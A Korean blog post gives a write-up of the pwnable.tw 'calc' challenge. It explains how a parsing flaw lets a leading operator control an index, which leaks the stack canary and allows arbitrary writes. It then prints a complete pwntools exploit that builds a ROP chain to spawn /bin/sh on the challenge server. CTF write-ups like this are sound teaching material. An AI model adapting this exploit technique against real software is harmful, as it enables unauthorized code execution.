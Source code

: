 ```yaml
---
layout: post
title: ! ' [pwnable.tw] calc writeup '
excerpt_separator: <!--more-->
tags:
  - KRater
  - Write-up
  - pwnable.tw
  - pwnable
---
```


pwnable.tw 문제 풀었습니다. 150점 짜리면 세번째로 쉬운건데 너무 오래걸렸네요... 갈 길이 멉니다..

<!--more-->

## calc (150 pts)

[pwnable.tw](https://pwnable.tw/) 문제입니다. 여긴 난이도가 꽤 있는거 같아요.. 확실히 100pts 문제에 비해 푼 사람이 절반이라는 게 놀랍군요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic01.PNG)

문제 자체는 상당히 심플한 프로그램입니다. 계산기에요. 근데 프로그램 코드가 좀 긴 편입니다. 분석하기 싫게 만들었어요. main 함수 안으로 들어가보면 알람 60초 걸어놓고 calc 함수를 호출하는 데, 이게 가장 중요한 함수입니다. 들어가서 의사코드로 확인해볼게요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic02.PNG)

무한루프로 1분동안 계속 실행되고, get_expr, parse_expr 함수가 눈에 띕니다. get_expr 함수는 입력받아서 화이트리스트를 통해 올바르지 않은 입력값은 아예 받아들이지 않습니다. 반면에 걸러진 표현식은 expr 변수에 저장됩니다. 이 함수는 표현식이 올바른지는 검사하지 않습니다. 단지 화이트리스트 내의 원소에 포함인지만 검사해요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic04.PNG)

parse_expr는 걸러진 표현식을 이용해 계산을 수행합니다. 내부적으로 eval 이라는 함수를 이용해서 계산하는데, 계산하는 방식이 조금 특이합니다. 16 + 4 라는 표현식을 계산한다고 가정 해 봅시다. 먼저 1과 6을 넘긴 뒤 '+'에 도달하면 표현식을 분해하기 시작합니다. 16은 2bytes를 차지하므로 null 까지 3bytes를 동적 할당한 뒤, 이를 atoi 함수를 이용해서 int형으로 바꾸어주는 작업을 합니다. 바뀐 숫자는 poll 배열에 들어갑니다. 그 뒤 기호 배열(s)이 현재 비어있으므로, '+' 기호를 기호 배열에 넣습니다. 다음 숫자 4를 넘기고 expr 분석을 종료하면 기호 배열에서 연산 기호를 빼내면서 차례대로 연산합니다. 만약 *, /가 등장하면 이는 스택처럼 작동하여 적절하게 우선순위 연산을 수행합니다.

parse_expr이 에러를 감지하는 경우는 크게 두가지입니다. 첫 번째로는 연산 기호 이후에 숫자가 오지 않았을 경우입니다. 두 번째로는 숫자에 '0'이 나오는 경우입니다. 이 두 가지의 경우는 계산을 강제로 종료하고, 나머지는 정해진 대로 연산을 수행합니다. 그런데 문제는 맨 처음에 숫자 대신 연산 기호가 나타나는 경우를 제어하고 있지 않아서 발생합니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic03.PNG)

현재 계산을 수행하는 과정은 가장 처음 표현식이 숫자라고 가정하면서 출발합니다. 만약 숫자, 연산기호, 숫자의 형식이 아니라 연산기호, 숫자의 형식으로 값이 들어와도 정상이라고 생각하죠.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic06.PNG)

보기 쉽게 바꿔주면 이렇습니다. IDA에서 구조체 선언은 처음 해봤는데 보기 편하네요. 

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic05.PNG)

eval에서 연산할 때 p->numbers의 배열을 참조하는데, 이때 cnt의 값에 따라서 참조하는 배열 위치가 다릅니다. 그런데 이부분을 init_pool에서 100개까지만 정리하므로 그 밖의 값들은 정리가 안될거에요. 그럼 이런 상황에서 만약에 '' + 100과 같은 값을 입력했다고 가정해봅시다. 일단 ''이 atoi('')에서 0을 반환하는 데, 0의 경우에는 numbers에 접근하지 않습니다. 근데 numbers에 접근하지 않으면 cnt도 증가시키지 않아요. 그리고 '+' 연산 기호가 스택에 들어가고, 100이 numbers에 접근하면서 cnt가 1이 됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic07.PNG)

지금 cnt가 1이죠. 그런데 eval 함수에서 더하기 연산을 하면서 p->numbers[-1] = p->numbers[-1] + p->numbers[0]이 됩니다. p->numbers[-1]은 p->cnt입니다. 그러면 p->cnt가 1이었다가 입력해준 숫자랑 더해지면서 101이 될겁니다. eval에서 마지막에 --p->cnt를 해주면서 다시 입력해 준 숫자가 됩니다. 결국 p->cnt가 매우 커졌을뿐만 아니라, 우리가 원하는 값으로 제어됩니다. 그럼 출력하는 부분을 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic08.PNG)

p->numbers[p->cnt - 1]입니다. 그러면 p->cnt가 우리가 입력한 값이니까 입력한 값-1 의 위치에 있는 정수를 출력할 수 있게됩니다. p->numbers의 0번째부터 canary까지는 356 bytes만큼 떨어져있으니, 입력할 값을 357로 해주면 canary가 출력됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic09.PNG)

또한 임의 메모리에 값을 덮어쓸 수도 있게되었습니다. 임의 메모리 오프셋으로 p->cnt 값을 조정해주고 거기다가 값을 더하거나 빼면 eval함수에서 해당 메모리의 값이 조작되니까요. 이를 기반으로 익스플로잇 코드를 작성했습니다.

```python
from pwn import *

PROCESS = "./calc"
HOST = "chall.pwnable.tw"
PORT = 10100
#r = process(PROCESS)
r = remote(HOST, PORT)

addr_bin_sh = 0x080ee360
_bin = 0x6e69622f
__sh = 0x0068732f

pop_eax = 0x0805c34b # pop eax; ret
pop_ecx_ebx = 0x080701d1 # pop ecx; pop ebx; ret
pop_edx = 0x080701aa # pop edx; ret
write_ecx = 0x080958c2 # add [ecx], eax; ret
int80 = 0x08070880 # int 0x80; ret

def main () :
	r.recvuntil("==\n")
	insert(361, pop_eax)
	insert(362, _bin)
	insert(363, pop_ecx_ebx)
	insert(364, addr_bin_sh)
	insert(365, addr_bin_sh)
	insert(366, write_ecx)
	insert(367, pop_eax)
	insert(368, __sh)
	insert(369, pop_ecx_ebx)
	insert(370, addr_bin_sh+4)
	insert(371, addr_bin_sh+4)
	insert(372, write_ecx)
	insert(373, pop_eax)
	insert(374, 0xb)
	insert(375, pop_ecx_ebx)
	insert(376, addr_bin_sh+8)
	insert(377, addr_bin_sh)
	insert(378, pop_edx)
	insert(379, addr_bin_sh+8)
	insert(380, int80)
	r.sendline("")

	# get shell
	r.interactive()

def insert (index, data) :
	show = "+" + str(index)
	r.sendline(show)
	origin = int(r.recvline())
	if (origin < 0) :
		origin *= -1

	payload = show
	payload += "+" + str(int(data))
	payload += "-" + str(origin)
	r.sendline(payload)
	print (payload)
	r.recv(1024)

if __name__ == '__main__' :
	main ()
```

.BSS 영역에 /bin/sh를 써주고 실행시키는 쉘 코드를 연산을 통해 작성했습니다. 쓰고보니 쓴 값에 따라서 꼬랑지가 결정되므로 좀더 이쁘게 쓸 수 있더라구요.. 그래도 뭐 작동하니까요 ㅎ..

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic10.PNG)

읽어주셔서 감사합니다 :)